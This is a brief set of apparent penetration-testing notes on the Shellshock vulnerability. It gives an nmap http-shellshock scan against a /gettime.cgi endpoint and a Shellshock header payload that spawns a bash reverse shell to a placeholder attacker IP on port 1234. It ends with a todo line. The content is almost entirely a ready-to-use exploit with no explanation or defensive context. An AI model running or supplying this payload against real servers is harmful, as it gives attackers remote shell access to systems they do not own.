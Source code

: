 shellshock vuln

```bash
nmap --script=httpshellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
```bash
() { : ; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/**hacker_ip**/1234 0>&1'
```

todo: /gettime.cgi